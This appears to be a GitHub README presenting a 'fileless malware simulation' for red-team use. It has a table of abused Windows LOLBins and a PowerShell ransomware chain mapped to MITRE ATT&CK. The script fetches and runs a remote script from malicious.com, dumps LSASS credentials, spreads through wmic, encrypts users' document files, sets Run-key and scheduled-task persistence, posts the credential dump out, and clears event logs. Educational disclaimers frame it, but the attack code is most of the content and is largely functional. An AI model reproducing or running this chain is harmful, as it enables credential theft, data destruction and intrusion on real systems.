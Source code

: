 
<div align="center">

# 🧠 **100% Fileless Malware Simulation**
> High-fidelity adversary emulation using in-memory execution and LOLBins

![License](https://img.shields.io/badge/license-MIT-black?style=flat-square)
![Status](https://img.shields.io/badge/build-simulation-lightgrey?style=flat-square)
![Scope](https://img.shields.io/badge/type-red_team-blue?style=flat-square)
![MITRE ATT&CK](https://img.shields.io/badge/framework-MITRE_ATT%26CK-red?style=flat-square)

</div>

---
## Overview:
Fileless malware is a type of attack that runs entirely in memory, using built-in system tools like PowerShell and rundll32 without ever writing files to disk, making it difficult for traditional antivirus to detect. While a fully fileless chain is possible—leveraging phishing, in-memory injection, and living-off-the-land binaries—in practice, traces like temporary files or registry entries often still appear during execution.

## ⚠️ Advisory Warning: Educational Use Only  
This repository contains content related to NSFW (Not Safe for Work) cybersecurity topics including fileless malware, LOLBins, and adversary simulation tactics. The information provided is strictly for **educational, academic, and controlled research lab environments only**. **Do not deploy or replicate these techniques in unauthorized systems.** Misuse may constitute a violation of laws and ethical guidelines.

---

## 🧠 NSFW - Fileless Malware (Advanced Simulation Guide)

![Fileless Malware Concept](https://github.com/user-attachments/assets/3108f067-a49b-45c1-b1c4-07691881c76b)

---

## 🧩 LOLBins 101: Living off the Land Binaries & Scripts

**LOLBins** (Living off the Land Binaries) are legitimate Windows system utilities that adversaries repurpose to execute code, evade defenses, and persist. These tools are trusted, signed, and often overlooked by endpoint security solutions.

### ⚙️ Common LOLBins and Their Abuse Cases

| LOLBin              | Abused For                       | ATT&CK Tactics                          |
|---------------------|----------------------------------|-----------------------------------------|
| `rundll32.exe`      | DLL execution                    | Code execution, EDR bypass              |
| `mshta.exe`         | Run HTA payloads                 | Script execution, sandbox evasion       |
| `regsvr32.exe`      | Load COM DLLs                    | Fileless execution, C2 proxy            |
| `wmic.exe`          | Remote command execution         | Process launch, lateral movement        |
| `cmd.exe / powershell.exe` | Script runners          | Payload staging, persistence            |
| `msbuild.exe`       | Inline C# compile/exec           | Fileless malware loading                |
| `certutil.exe`      | Download/decode files            | Exfiltration, staging                   |
| `bitsadmin.exe`     | Remote file fetch                | Delivery, task persistence              |
| `schtasks.exe`      | Task scheduling                  | Privilege escalation, persistence       |
| `esentutl.exe`      | Copy/exec binary payloads        | Stealth operations, exfiltration        |

---

## 🧬 Theoretical Simulation: 100% Fileless Ransomware  
*Using the [MITRE ATT&CK](https://attack.mitre.org/) Framework for Mapping TTPs*

> ⚠️ **Disclaimer**: Code below is a synthetic simulation script intended for red team R&D under proper authorization. DO NOT EXECUTE OUTSIDE OF A SANDBOX ENVIRONMENT.

<details>
<summary>Click to view simulated PowerShell ransomware chain</summary>

```powershell
# 🎯 1. Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ 2. Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 3. Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 4. Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 5. Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 6. Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 7. Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 8. Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 9. Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 10. Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🧭 Additional Resources

- 🔧 [PrintNightmare Deep Dive](https://itm4n.github.io/printnightmare-not-over/)
- 💀 [PrintNightmare Vulnerability Summary](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
- 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
- 🧠 [MITRE ATT&CK Entry - S0697](https://attack.mitre.org/software/S0697/)
- 🧬 [LOLGEN - Generate Abuse Chains](https://lolgen.hdks.org/)
- 🦠 [Fileless Malware – Wikipedia Overview](https://en.wikipedia.org/wiki/Fileless_malware)
- 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🖨️ [Printer Driver Exploits](https://github.com/jacob-baines/concealed_position)

---

### 🛡️ Final Note
This repository is a research artifact intended for cybersecurity professionals, malware analysts, and red team operators. Unauthorized use, real-world deployment, or replication of these techniques is prohibited. Always operate within the bounds of your local laws and professional codes of conduct.

